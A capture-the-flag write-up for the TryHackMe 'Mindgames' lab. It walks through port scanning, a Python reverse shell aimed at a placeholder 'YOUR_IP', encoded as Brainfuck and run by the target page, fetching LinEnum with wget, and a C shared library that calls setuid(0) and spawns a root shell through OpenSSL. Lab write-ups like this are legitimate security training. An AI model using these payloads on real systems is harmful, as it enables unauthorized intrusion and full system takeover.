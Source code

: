 # Mindgames - TryHackMe

Challenge Link: [Mindgames](https://tryhackme.com/room/mindgames)

![image]({{0xtaylur.github.io}}/assets/mindgames/mind.png)

## Summary
Mindgames is a hard rated box on TryHackMe. We're tasked with enumerating, gaining initial access,and then a somewhat tricky privilege escalation using a Library Load via OpenSSL.

## Recon

There wasn't that much enumeration to do since we only found 2 ports open: 22 running ssh and 80 running a HTTP server from our NMAP scan.
```
# Nmap 7.80 scan initiated Tue Jun 16 23:26:12 2020 as: nmap -sC -sV -o nmap 10.10.91.145
Nmap scan report for 10.10.91.145
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

We see that port 80 is open, so I decided to run a GoBuster scan to see if I could find anything. After about 10 minutes of scanning, I figured there were no directories on the site.
```
root@kali:~/THM/mindgames# gobuster dir -u 10.10.91.145 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.91.145
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/17 10:21:52 Starting gobuster
===============================================================
Progress: 19932 / 87665 (22.74%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/06/17 10:29:03 Finished
===============================================================
```

## Initial Shell

Let's go check out the page!
![image]({{0xtaylur.github.io}}/assets/mindgames/mindgames_page.png)

Hmmm, very intersting. It seems as if the the page decodes the _Brainfuck_ programming language. Let's see what happens when we throw the "Hello, World" section into the textbox.
![image]({{0xtaylur.github.io}}/assets/mindgames/hello_world.png)

It just prints _"Hello, World"_. Now let's see what happens when we try it with the Fibonacci brainfuck text.
![image]({{0xtaylur.github.io}}/assets/mindgames/fibonacci.png)

So it seems like it it runs the actual brainfuck progamming language. Let's see if we can try to get a reverse shell with this knowledge. I headed over to the [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and used the python reverse shell code.
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

After I changed the default IP in that code block to my tun0 IP. (You can find that out by using the command _ifconfig_ in your terminal). I started a netcat session listening on port 1234. I then headed over to a brainfuck encoder to convert it, let's throw this code into the mindgames site and see if we can get an initial shell.

We successfully get a reverse shell as user: _mindgames_
![image]({{0xtaylur.github.io}}/assets/mindgames/initial_shell.png)

From here, we can go back one directory and read into _user.txt_
![image]({{0xtaylur.github.io}}/assets/mindgames/user.png)

## Privilege Escalation

Let's start off with using LinEnum to see if we can look into any interesting files that we can use to start our privilege escalation. On your host machine, change into your directory where you have _LinEnum_ stored. If you do not have LinEnum you can get it [here](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) by using the _wget_ command.

On your host machine, start a SimpleHTTPServer on port 8000 by using this command:
```
python -m SimpleHTTPServer
```

Change into the /tmp directory on your reverse shell, we can use the _wget_ command to put LinEnum.sh on the machine so we can run it.
```
$ wget YOUR_IP:8000/LinEnum.sh
--2020-06-17 15:36:21--  http://YOUR_IP:8000/LinEnum.sh
Connecting to YOUR_IP:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: ‘LinEnum.sh’

     0K .......... .......... .......... .......... .....     100%  106K=0.4s

2020-06-17 15:36:22 (106 KB/s) - ‘LinEnum.sh’ saved [46631/46631]
```

Now let's make it an executable file by using _chmod +x LinEnum.sh_. Run LinEnum by using "./LinEnum.sh".

After reading through LinEnum we find that _/usr/bin/openssl_ has [POSIX](https://uwsgi-docs.readthedocs.io/en/latest/Capabilities.html) capability.
![image]({{0xtaylur.github.io}}/assets/mindgames/openssl.png)

After a bit of research, I found a library load via OpenSSL using the C programming language. Create a C file named _engine.c_ and put this code block inside of it.
```
#include <unistd.h>

__attribute__((constructor))
static void init() {
    setuid(0);
    execl("/bin/sh", "sh", NULL);
}
```

After we have made this C file, we must compile it using this command:
```
gcc -fPIC -o a.o -c engine.c && gcc -shared -o engine.so -Lcrypto a.o
```

Once compiled, set up another SimpleHTTPServer and grab the engine.so file from your host machine onto the reverse shell.
```
$ wget YOUR_IP:8000/engine.so
--2020-06-17 15:55:53--  http://YOUR_IP:8000/engine.so
Connecting to YOUR_IP:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16024 (16K) [application/octet-stream]
Saving to: ‘engine.so’

     0K .......... .....                                      100% 71.8K=0.2s

2020-06-17 15:55:54 (71.8 KB/s) - ‘engine.so’ saved [16024/16024]
```

We can now open GTFOBins and search for an OpenSSL Library Load.
![image]({{0xtaylur.github.io}}/assets/mindgames/gtfo.png)

We can now run this command but switch out "./lib.so" with "./engine.so".
![image]({{0xtaylur.github.io}}/assets/mindgames/got_root.png)

We are now root! We should now be able to cat the root flag.
![image]({{0xtaylur.github.io}}/assets/mindgames/root.png)
